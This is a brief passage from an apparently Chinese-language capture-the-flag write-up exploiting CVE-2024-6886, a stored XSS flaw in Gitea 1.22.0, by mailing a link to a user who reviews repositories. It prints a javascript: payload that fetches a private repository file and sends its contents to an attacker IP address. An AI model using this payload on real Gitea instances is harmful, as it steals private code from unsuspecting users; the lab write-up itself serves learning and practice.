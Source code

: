 ### CVE-2024-6886

- [Gitea 1.22.0 - Stored XSS - Multiple webapps Exploit](https://www.exploit-db.com/exploits/52077)

在**/var/mail/axel**中得到一段留言

![](./images/image-14.png)

需要给**jobert**发邮件,然后他会检查仓库,造成**XSS**漏洞

**jobert**应该是有访问**employee-management**这个仓库的权限的

```
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.xx.xx/?content='+encodeURIComponent(data)))">XSS test</a>
```

![](./images/image-15.png)
